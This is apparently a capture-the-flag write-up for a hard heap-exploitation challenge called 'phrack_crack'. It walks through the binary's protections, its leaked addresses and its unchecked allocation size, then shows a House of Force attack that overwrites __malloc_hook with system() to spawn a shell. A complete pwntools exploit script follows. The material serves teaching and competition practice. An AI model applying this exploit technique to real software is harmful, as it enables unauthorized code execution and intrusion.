 # phrack_crack

Author: [d1g174l_f0rtr355](https://twitter.com/BhaskaraShravya)

Solves: 9

Difficulty: Hard

## Preliminary Analysis

We notice that the binary given to us is a 64 bit non-stripped file with the following memory protections:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'./libc'

```
We notice that a libc has also been provided. You may choose to patch the binary to the libc given. With only PIE enabled, we cannot formulate the exploit technique at first glance. So let's get an understanding of the binary.

 ```
 GNU C Library (GNU libc) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.5.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<http://www.gnu.org/software/libc/bugs.html>.
```
Another important detail we need to notice is that the libc version provided to us is Glibc 2.27. 

## Understanding the binary

As we run the program, we see that we are presented with four choices: 
```
1. malloc 0/4
2. edit
3. target
4. quit
```
We can allocate atmost 4 chunks on the heap. Also we notice two generous leaks given to us. One leak being the libc addres sof puts and the other a heap address as seen from the decompiled code below:
```
  printf("Here's a generous leak for you! %p\n\n", &puts);
  idx = 0;
  ptr = malloc(0x88uLL);
  printf("Here's one more generous leak for you: %p\n", (char *)ptr - 64);
  free(ptr);
  while ( 1 )
  {
    printf("\nMENU\n\n1. malloc %u/%u\n", (unsigned int)idx, 4LL);
```

Upon further decompilation of the binary, we observe that when we try to malloc() a chunk, we are asked for size and data. However the code snippet below shows that there is no check on the size of the chunk. This enables us to give a very large sized chunk evetually resulting in a Hous of Force attack since the libc version given is also 2.27. 
```
        case 1:
          fflush(stdout);
          if ( idx < 0 )
          {
            puts("No negative indices allowed!");
            exit(0);
          }
          if ( idx > 4 )
          {
            puts("maximum requests reached!");
            exit(0);
          }
          puts("Enter size: ");
          __isoc99_scanf("%ld", &size);
          m_array[idx] = malloc(size);
          if ( !m_array[idx] )
          {
            puts("request failed!\n");
            exit(0);
          }
          puts("data: ");
          get_inp(m_array[idx++], (unsigned int)size);
          break;
 ```
 The edit() function asks for index at which we need to edit the chunk, and checks if the index is between 0-4. 
 
 ## Exploitation
 
 Since there is no size check on any of the chunks, we can make use of this vulnerability to overwrite the top chunk. Furthermore, we can request a chunk of a suitable large size. Generally, our memory map looks something like this:
![Screenshot from 2022-12-16 16-17-50](https://user-images.githubusercontent.com/59280388/208084571-f2b1d4ce-9aa6-498c-b686-71822e3d0380.png)

In the above image, the binary/ code_base addresses reside at the lowest address and the stack resides at the highest address. 

Now think!

If we overwrote the top chunk size field, then from malloc's perspective, the heap could extend across the gap overlapping sensitive data in the library or the stack region. However, we see that the `target` variable resides in the data section of the binary which is at a lower address than the heap. Look at the diagram below!

![Screenshot from 2022-12-16 16-19-09](https://user-images.githubusercontent.com/59280388/208087361-eb33359d-b1b2-4bcf-b750-cf1a6faf823c.png)


Hence, if we overwrote a really large value into the top chunk size field, it would appear as though it extended past the virtual address space, wrapping around to the start of the memory map. Then we can make another request for malloc, overwrite the `target` variable in the data section. However, upon a little closer observation, we realize that overwriting the `target` address is eventually of no significance to us in trying to obtaina shell. Hence we shall make use the above same concept to overwrite `__malloc_hook`, with a pointer to system. Since `__malloc_hook` is internally called when trying to allocate a chunk through `malloc`, we see that when we try to request another chunk, `system()` will infact be executed. All we need to make sure is to place the string `/bin/sh` onto the heap. This is the concept behind the House of Force attack in the binary.

 
## Exploit
```
def malloc(size, data):
	p.sendline(b'1')
	p.sendlineafter(b'Enter size: \n', str(size))
	p.sendlineafter(b'data: \n', data)

def edit(ind, data):
	p.sendline(b'2')
	p.sendlineafter(b'Enter index: \n', str(ind))
	p.sendlineafter(b'data: \n', data)
  
from pwn import *

p = process('./phrack_crack')
gdb.attach(p)

p.recvuntil('! ')
libc = int(p.recvline()[:-1], 16)

info('libc: %s'%hex(libc))

p.recvuntil("Here's one more generous leak for you: ")
heap = int(p.recvline()[:-1], 16) - 0x630

info('heap: %s'%hex(heap))

# malloc
malloc(24, b'a'*20)

edit(0, b'b'*24 + p64(0xffffffffffffffff))

libc_base = libc - 0x6dba0
malloc_hook = libc_base + 0x3aec30
system = libc_base + 0x41710
binsh = libc_base + 0x175e93


dist = (malloc_hook - 0x10) - (heap + 0x1710 + 0x20)
info('dist: %s'%hex(dist))
malloc(dist, b'c')

malloc(30, p64(system))
p.sendline(b'1')
p.sendlineafter(b'Enter size: \n', str(binsh))

p.interactive()
```
 
 
